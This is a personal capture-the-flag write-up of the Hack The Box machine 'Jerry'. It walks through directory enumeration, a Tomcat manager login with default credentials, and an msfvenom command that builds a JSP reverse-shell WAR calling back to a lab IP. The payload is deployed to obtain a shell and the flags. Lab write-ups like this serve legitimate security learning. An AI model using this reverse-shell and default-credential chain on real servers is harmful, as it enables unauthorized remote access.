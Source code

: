 ```yaml
---
title: "[HTB] Jerry"
author: "Wook Lee"
date: "2024-08-07"
tags: ["Hack The Box"]
---
```


<div style="text-align: center"><img src="./200.gif"></div>

I was able to solve this box today on my own without relying on a walkthrough, following yesterday's success with the box named **_Blue_**. I feel like the hard work that I have put in over the past couple of months is finally paying off. I am so happy :)

---

#### nmap scan

![alt text](image.png#center)

<br>

![alt text](image-2.png#center)

<br>

#### directory busting with gobuster

`gobuster dir -u http://10.10.10.95:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
![alt text](image-5.png#center)

<br>

***http://10.10.10.95:8080/docs***
![alt text](image-3.png#center)

<br>

***http://10.10.10.95:8080/example***
![alt text](image-4.png#center)

<br>

***http://10.10.10.95:8080/manager***
![alt text](image-6.png#center)

<br>

After few tries of default credentials, it automatically redirected me to **_manager/html_** page and the second line listed the username **_tomcat_** and the password **_s3cret_** so I tried the credentials, though I was skeptical.
![alt text](image-7.png#center)
![alt text](image-8.png#center)

<br>

Contrary to my doubts, the username and password I tried hit the mark and directed me to **_Tomcat Web Application Manager_**.
![alt text](image-9.png#center)

<br>

After scrolling down a bit, I found a section (**_WAR file to deploy_**.) where I could upload a file. As soon as I saw this functionality, I thought of a solution where I could generate a payload, run it on the server, and finally pop the reverse shell to gain access.
![alt text](image-10.png#center)

<br>

#### Generating payload

Since we need to upload a **.war** reverse shell, I refered to the **_Reverse Shell Cheatsheet_** from the famous **_PayloadsAllTheThings_** github.

![alt text](image-11.png#center)

The full command to generate the shell looks like this:

`msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=1234 -f war > reverse.war
strings reverse.war`

<br>

Uploaded the generated payload.
![alt text](image-12.png#center)

<br>

After uploading the payload and clicking the **Deploy** button, a new path named **_reverse_** appeared under the Applications section for the payload I created.
![alt text](image-13.png#center)

<br>

Before navigating to the new path to run the payload, I needed to set up a listener to listen for the port. Then, I successfully gained the shell.
![alt text](image-15.png#center)

<br>

After spending some time exploring the directories, I finally found the **_flags_** directory, in which included a text file called **_2 for the price of 1.txt_** and it contained both the user flag and the root flag.
![alt text](image-16.png#center)

<br>

![alt text](image-17.png#center)
